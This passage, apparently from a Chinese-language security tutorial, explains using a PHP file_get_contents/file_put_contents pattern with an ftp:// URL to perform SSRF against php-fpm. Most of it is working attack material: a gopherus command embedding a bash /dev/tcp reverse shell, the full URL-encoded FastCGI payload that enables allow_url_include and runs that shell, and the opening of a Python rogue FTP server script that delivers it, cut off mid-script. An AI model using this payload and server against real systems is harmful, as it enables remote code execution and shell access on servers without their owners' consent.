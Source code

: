 现在如果我们使用viewFile=ftp://evil-server/file.txt那么会发生：
>
>首先通过 file_get_contents() 函数连接到我们的FTP服务器，并下载file.txt。
>然后再通过 file_put_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。

那此时，在它尝试使用file_put_contents()上传回去时，我们告诉它把文件发送到127.0.0.1:9001(fpm的端口，默认是9000)
那么，我们就在这中间造成了一次SSRF，攻击php-fpm

###  演示过程

当然下面三个是FTP攻击，之前学的是利用gopher协议，dict协议打。

### FTP打FPM

####  情况1

`对上面的代码，只有一个控制变量`

首先，我们使用gopherus工具生成攻击fastcgi的payload

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/10000 0>&1"  # 这里输入的是要执行的命令
```

得到payload，而我们需要的是上面payload中 `_` 后面的数据部分，即

```
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后写FTP服务代码，将上面的payload中的数据替换掉下面ftp脚本中的payload的内容

```python
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
```